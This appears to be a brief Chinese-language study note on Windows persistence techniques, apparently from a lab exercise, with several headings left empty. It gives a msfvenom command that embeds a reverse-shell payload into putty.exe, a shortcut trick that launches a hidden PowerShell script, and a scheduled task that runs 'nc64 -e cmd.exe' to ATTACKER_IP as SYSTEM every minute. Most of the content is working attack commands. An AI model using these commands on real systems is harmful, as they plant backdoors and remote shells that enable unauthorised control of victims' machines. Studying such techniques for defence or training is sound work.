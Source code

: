# 权限维持

## 添加后门用户

### RID劫持



## 后门文件

### 篡改exe

通过msf向exe中植入载荷

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

实验失败



### 篡改快捷方式

将快捷方式的属性值指向恶意文件

```cmd
powershell.exe -WindowStyle hidden C:\Users\khaz\Desktop\calc.ps1
```

![image-20231117105520136](E:/blog/source/images/image-20231117105520136.png)

但是powershel窗口会一闪而过



### 劫持文件关联



### 创建**Windows 任务计划程序**

```cmd
# 创建任务计划
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

> /sc minute /mo 1：一分钟执行一次
>
> /tn  <name>：任务计划名称
>
> /tr <cmd>：执行的命令
>
> /ru <user>：以什么权限运行
